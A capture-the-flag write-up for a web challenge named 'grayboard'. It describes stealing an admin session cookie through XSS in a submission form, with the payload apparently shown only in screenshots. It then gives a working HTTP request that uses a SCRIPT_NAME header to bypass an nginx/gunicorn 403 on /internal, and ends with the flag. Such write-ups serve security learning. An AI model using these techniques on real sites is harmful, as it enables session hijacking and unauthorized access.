







# grayboard
> My homework for my web design class is really bad but I don't know what to do. I really need to pass this class, can you help me?

## About the Challenge
We were given a website without the source code and there are some functionality such as:

* Login
* Register
* Submit a submissions



## How to Solve?
When you read the description on the homepage:

```
Your web design homework is due by tomorrow! Please be sure to submit your homework on time and I will personally grade it.
```

Additionally, if you use `CTRL + U` on any page of the website, you will find another endpoint inside an HTML comment:

```html
    <!-- <div class="text-center fixed-bottom">
        <footer class="text-center fixed-bottom">
            <small><a href="/internal">Internal</a></small>
        </footer>
    </div> -->
```



I'm sure this website is vulnerable to XSS. We need to steal the admin cookie and access the `/internal` endpoint after obtaining the admin cookie. So I submitted a XSS payload into a submission form





Wait for a while and we got the cookie! Now, we can login as an admin





> Because this part is a little bit guessy so I will skipped some explanation here.

It appears that accessing the `/internal*` endpoint will result in a 403 Forbidden error. Since this website uses `gunicorn` and `nginx`, I found this [writeup](https://ctf.zeyu2001.com/2021/csaw-ctf-qualification-round-2021/gatekeeping). We can bypass it using `SCRIPT_NAME`, so the final payload will look like this

```
GET /test/internal/submissions HTTP/1.1
Host: thecybercoopctf-grayboard.chals.io
Cookie: session=eyJpZCI6MSwidHlwZSI6ImFkbWluIiwidXNlcm5hbWUiOiJhZG1pbiJ9.ZYEGzw.Npm8_EdpYT5BSQnWOejvMaiW5gA
Upgrade-Insecure-Requests: 1
SCRIPT_NAME: /test
```



```
flag{why_yes_i_am_valedictorian_but_dont_ask_how}
```